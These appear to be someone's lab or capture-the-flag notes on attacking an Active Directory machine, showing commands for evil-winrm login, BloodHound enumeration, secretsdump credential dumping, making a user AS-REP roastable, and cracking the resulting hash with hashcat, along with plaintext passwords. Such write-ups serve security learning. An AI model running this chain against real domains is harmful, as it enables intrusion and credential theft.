 
```
evil-winrm -u 'sbauer' -p 'D3veL0pM3nT!' -i 10.10.10.179
```

![[Pasted image 20241002141912.png]]

![[Pasted image 20241002142112.png]]

![[Pasted image 20241002142511.png]]

![[Pasted image 20241002142528.png]]

```
bloodhound-python -d Megacorp.local -u sbauer -p 'D3veL0pM3nT!' -ns 10.10.10.179  -c all
```

![[Pasted image 20241002142806.png]]

```
secretsdump.py Megaccorp.local/sbauer:'D3veL0pM3nT!'@10.10.10.179
```
![[Pasted image 20241002142952.png]]

Will run PlumHound
```
python3 Plumhound.py -x tasks/default.tasks -p password
```

![[Pasted image 20241002155625.png]]

Open the index.html

![[Pasted image 20241002160246.png]]

SO i think there is something related to Kerberoasting
![[Pasted image 20241002182552.png]]

Will make Jorden kerberoastable as we have Generic Write permission.
![[Pasted image 20241002183013.png]]

```
Get-ADUser jorden | Set-ADAccountControl -doesnotrequirepreauth $true
```

![[Pasted image 20241002183657.png]]

```
$krb5asrep$jorden@MEGACORP.LOCAL:839beaa1345018b8b309dc6ec5623080$fa86c2524898d87e489a1a8dc41bcb3e9b652e8dee251f9a156d262756bdbdb91ff28f60704c46da450ef0bd2b5bd0d211fa4d518dc2c4ac8ce0aad2e9c93f2c9a9b0babb8ffad04348f974310441d69fde802ebfb9d1120f9b3b3fbe243e734395f69d83354aaaaa41ac326c01cad23fb3e573a584a974bd0d35e9b8a26ad013b93eec5c9c3aa5c6721533c7d29f4f8acc962189a5983b823a33300561ac694134a9ebb11f14d825b097093455c16f530b50cc6b7d6bdd910188ac2cac0551c2b8921557976e9303334887ca10f8495cb98c1a8b2570eee6f7f0fb99eff9def534e7fe1fcf71d1b6df3238831d69504
```

Let's crack it
```
hashcat --help | grep Kerberos
```

![[Pasted image 20241002183907.png]]

so the module is 18200 according to me.

```
 .\hashcat.exe -m 18200 -D 2 .\hashes4.txt .\rockyou.txt -O
```

![[Pasted image 20241002184238.png]]

Got the password for the user
```
rainforest786
```

